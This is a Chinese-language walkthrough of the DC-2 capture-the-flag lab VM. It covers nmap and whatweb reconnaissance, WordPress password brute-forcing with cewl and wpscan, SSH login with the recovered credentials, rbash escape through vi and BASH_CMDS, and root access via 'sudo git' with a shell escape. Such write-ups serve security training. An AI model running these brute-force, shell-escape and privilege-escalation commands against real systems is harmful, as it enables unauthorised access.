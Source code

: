 # 前言

靶机：`DC-2`，IP地址为`192.168.10.13`

攻击：`kali`，IP地址为`192.168.10.2`

都采用`VMWare`，网卡为桥接模式

# 主机发现

使用`arp-scan -l`或者`netdiscover -r 192.168.10.1/24`

![](./pic-2/1.jpg)

# 信息收集 

## 使用nmap扫描端口

![](./pic-2/2.jpg)

## 网站信息探测

访问80端口默认界面，但是访问IP时，跳转到一个域名`dc-2`，所以这里对该IP进行绑定该域名，编辑文件`/etc/hosts`，再次访问80端口即可成功访问

![](./pic-2/4.jpg)

并且这时候发现网站中的显示涉及到`wordpress`CMS，尝试使用`whatweb`等工具进一步验证，发现为`wordpress 4.7.10`版本

![](./pic-2/5.jpg)

# 网站漏洞寻找

发现`flag1`，查看，提示可能需要使用`cewl`工具来生成字典，用于密码破解

![](./pic-2/5-1.jpg)

那么使用`cewl`生成一个针对网站的字典文件`words`，这个是生成在当前目录下的

```shell
cewl http://dc-2 -w words -m 3
```

使用针对`wordpress`的扫描工具`wpscan`

```shell
wpscan --url http://dc-2
```

![](./pic-2/6.jpg)

那么进一步进行用户名枚举，发现三个用户名

```shell
wpscan --url http://dc-2 -e u
```

![](./pic-2/7.jpg)

尝试进行密码暴力破解，有两组成功

```shell
wpscan --url http://dc-2 -e u -P words
```

![](./pic-2/8.jpg)

| 用户名  | 密码         |
| ------- | ------------ |
| `jerry` | `adipiscing` |
| `tom`   | `parturient` |

对于`wordpress`，默认的登录界面为`wp-login.php`，当然，如果默认改变，可以使用目录扫描爆破工具进行扫描，这里使用`gobuster`进行扫描一次

```shell
gobuster dir -u http://dc-2 -w /usr/share/wordlists/dirb/big.txt -x php,html,txt,md -d -b 404,403
```

![](./pic-2/9.jpg)

# ssh登录至tom

访问`wp-login.php`界面，然后使用上面的两组账户进行登录，根据`flag1`提示，下一个`flag`就在其中一个账户下，登录`jerry`账号后，发现`flag2`

![](./pic-2/10.jpg)

把其内容翻译就是：

"如果您无法利用 WordPress 并走捷径，还有另一种方法。

希望您找到了另一个切入点。"

想了一下，当前使用`wordpress`登录的账号是非管理员的，也就是并不能写入文件，那么 插件什么的，并无法利用。

那么当前有两组用户名和密码，还有7744的`ssh` 服务，猜测这里可能存在具有`ssh`登录的点

```shell
ssh tom@192.168.10.4 -p 7744
```

# rbash逃逸

发现可以登录成功，只是登录之后，当前用户`tom`的`bash`是具有限制的，也就是`rbash`

测试一番后，发现`/`不被允许使用

![](./pic-2/11.jpg)

那么使用`help`查看一下，主要就是发现`compgen`可用

![](./pic-2/12.jpg)

使用`compgen -c`列出当前可用的命令，除了上面发现的，还发现几个命令

![](./pic-2/13.jpg)

`ok`，那么就可以进行`rbash`逃逸了，如果不清楚的话，可以进行百度搜索，因为这里的`/`不被允许使用，所以对于`less、vi`等可能无法进行逃逸

那么直接调用命令时涉及到`/`就不被允许，那么定义一个变量，然后通过变量进行执行，这个变量可以是`/bin/sh`，前面也可以看到`set`是可以使用的，那么就可以通过这个命令进行操作

直接使用`set`命令可以看到相关问题

![](./pic-2/14.jpg)

这设置的是系统层面的，并且当前用户并没有权限，所以无法直接在这里允许`set`，但是可以通过与`vi`结合使用，来做一个临时的

```shell
#随便编辑一个文件，只要进入vi编辑即可
vi test
#进入后不要进入编辑模式，直接输入 :  以及后面的变量
:set shell=/bin/sh
#在vi中再次执行一次即可
:shell
```

进入到一个临时的`sh`中，但是环境变量并没有改变，好在前面的`export`可用，所以再设置一个临时环境变量

```shell
export PATH=/bin:$PATH
export PATH=/usr/bin:$PATH
```

环境变量成功后，发现`cat`命令成功，说明`rbash`逃逸成功

![](./pic-2/16.jpg)

这里的`flag3`提示我，最好使用`su`切换到用户`jerry`，然后输入上面的密码`adipiscing`

```shell
su jerry
```

# sudo提权至root

可以，登录成功，并查看`flag4`，提示`git`的提权

![](./pic-2/17.jpg)

那么搜索一下，`git`命令是具有SUID还是`sudo`

```shell
find / -perm -4000 -print 2>/dev/null
sudo -l
```

![](./pic-2/18.jpg)

对于`git`的`sudo`提权，方法很多，可以借助网站`gtfobins.github.io`搜索

![](./pic-2/19.jpg)

使用其中一个进行测试

```shell
sudo git -p help config
!/bin/sh
```

使用上面命令后，提权成功

![](./pic-2/20.jpg)

切换到`root`的主目录，看到最终`flag`

![](./pic-2/21.jpg)





# 总结

该靶场考察以下几点：

1. 网站指纹识别，以及`wordpress`的一些默认配置的使用以及`wpscan`的使用
2. `cewl`的使用，该工具是通过爬取网站的信息作为单词，可用作用户名及密码等
3. `rbash`的逃逸，方式很多，具体问题具体分析
4. `sudo`提权的一些方式，这里是`git`相关的

## 额外

还有一种`rbash`逃逸，是在`BASH_CMDS`是可修改时，可以利用，这个可以通过`set`命令查看是否有无，具体能否修改可以测试一下

![](./pic-2/22.jpg)

然后通过下面代码执行

```shell
#直接在终端输入
BASH_CMDS[a]=/bin/sh;a
#这时候就会获取一个sh

#再设置临时环境变量
export PATH=/bin:$PATH
export PATH=/usr/bin:$PATH
```











